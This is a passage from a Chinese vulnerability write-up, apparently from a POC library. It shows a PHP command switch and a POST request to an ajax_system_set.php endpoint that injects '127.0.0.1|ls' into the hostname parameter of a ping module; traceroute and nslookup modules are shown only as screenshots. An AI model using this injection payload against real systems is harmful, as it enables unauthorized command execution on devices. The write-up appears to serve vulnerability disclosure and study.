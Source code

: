 ```
        break;
    default:
        echo "unknow cmd";
        break;
}

?>
```

**switch($cmd)** 中的 $cmd 是可控的，可以通过传参选择分支执行

**ping_hostname 模块**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5ggibJoCFBnp19TK0VOvCo2sFotVM4yDiaZMb4iaxcicSqvNXN8YuEXbia8RdvJcAF4B1PiabBFx02b0dA/640?wx_fmt=png)

**构造 POST 请求**

```
/nmss/toolMenu/Ajax/ajax_system_set.php

cmd=ping_hostname&hostname=127.0.0.1|ls&packet_size=56&count=4&haveEn=1
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5ggibJoCFBnp19TK0VOvCo2o8trrJppE3uYz2b7uOXAvXvicTsPK2VW95vfhgE7FQfMEuB57qBM6ow/640?wx_fmt=png)

**traceroute_hostname 模块**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5ggibJoCFBnp19TK0VOvCo2piadt0x7CGdvt5Vh9FuXCHOnGgItYWmKgcReopibLnljOzeR0HmIFEUw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5ggibJoCFBnp19TK0VOvCo2VHXSWDbQibsUzu37aVlEcHiazJUUeic172n3NnEC06giaN73g5uzofxBrA/640?wx_fmt=png)

**nslookup_hostname 模块**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5ggibJoCFBnp19TK0VOvCo2icLjxMemyBgrAFvFVibSFdnFQDxlRQl561zG2s57tk8RWcjP8Q1mraWQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5ggibJoCFBnp19TK0VOvCo2haEcFxCCoerkhaaNoibKPyuRfsfIgvhZMKYMOe1ocscmVAUyjicia3hnA/640?wx_fmt=png)

 ****二:  关于文库🦉****

 **在线文库：**

**http://wiki.peiqi.tech**

 **Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4cpD8uQPH24EjA7YPtyZEP33zgJyPgfbMpTJGFD7wyuvYbicc1ia7JT4O3r3E99JBicWJIvcL8U385Q/640?wx_fmt=png)

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐
